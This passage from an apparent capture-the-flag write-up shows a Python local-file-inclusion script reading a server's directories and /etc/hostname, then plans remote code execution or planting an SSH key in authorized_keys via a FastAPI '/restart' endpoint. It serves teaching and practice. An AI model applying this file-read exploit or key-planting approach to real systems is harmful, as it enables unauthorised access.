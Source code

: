 ```python
        res = r.json()
    except:
        print("Error")
        exit()
    directory = res[list(r.json().keys())[0]] # ugly hack
    if isinstance(directory, str):
        print(directory)
        exit()
    for x in directory.get("directories", []):
        print(f"<dir> {x}")
    for x in directory.get("files", []):
        print(f"<file> {x}")

elif cmd == "cat":
    r = requests.get(url + "/logfile" + f"?filepath={obj}")
    print(r.text)
```


```
$ python3 lfi.py ls /home
<dir> subops
<dir> f_omm_app
<dir> ubuntu

$ python3 lfi.py cat /etc/hostname
ip-10-128-2-126
```

The flag is located in `/home/f_omm_app/user`, however this file has to be executed and cannot be read with our LFI. There are also no ssh-keys located on the machine, so we must find a way to either execute commands (RCE) or write files to disk (write our public ssh-key to /home/f_omm_app/.ssh/authorized_keys).

If we list the files in our CWD on the server we can access the FastAPI python code. `main.py` contains the code for the endpoints.
```
$ python3 lfi.py ls .
<dir> __pycache__
<dir> etc
<dir> Models
<dir> Data
<dir> Helpers
<dir> Configurations
<dir> .venv
<file> requirements.txt
<file> main.py
<file> log.py
```

There is a lot of code to parse through (the main.py file is 535 lines), but most of the endpoints are not relevant for our goal (RCE or writing files to disk). One interesting endpoint is the `/restart` endpoint, which seems to restart an existing job on the server.
```python
@app.put("/restart")
async def restart_job(job_id: str):
    app_logger.info(f"Attempting to restart job {job_id}")

    job = pbsModule.get_job(job_id)
    if not isinstance(job, Job):
        raise HTTPException(status_code=400, detail=str(job))

    if job.state is not State.FAILED:
        raise HTTPException(status_code=400, detail="Job not available for restart")

    job_dir = job.path
```